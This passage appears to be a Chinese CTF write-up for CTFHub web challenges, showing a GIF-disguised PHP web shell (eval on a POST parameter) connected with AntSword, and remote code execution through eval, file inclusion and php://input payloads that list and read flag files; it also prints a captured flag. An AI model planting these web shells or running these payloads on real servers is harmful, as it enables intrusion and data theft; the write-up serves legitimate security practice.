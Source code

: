 ```php
GIF89a
<?php echo 123;@eval($_POST['code']);?>
```

上传成功，蚁剑连接

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751684145018-f5cd7ba1-1262-4f9c-a884-a06744f17024.png)

## 六、RCE
### eval执行
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751686995894-d1b2cbc7-4e80-4ac9-9f4e-08454403be00.png)

传入cmd参数

```php
system("ls -lR / | grep flag");
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751687578802-93f6e4e9-26a0-4cb5-b7db-398d616010f4.png)

```php
system("find / -name flag_14104");
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751687657486-f677e66e-04f3-4bb2-bf72-93a239480b95.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 文件包含
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751687829586-f7d8ca26-eb4d-4116-ba1a-d6249c567730.png)

分析代码，GET传file参数不能有“flag”字符，自带shell.txt文件

```php
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751688055014-03d252d6-ddc3-4dac-a4dd-19f4ae015fda.png)

### php://input
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751695276224-55fc3eaa-bfad-4c47-918b-7ae5eedb9ba2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751695380746-f388acc1-839a-43b4-9fa7-469f3e1f3aae.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```
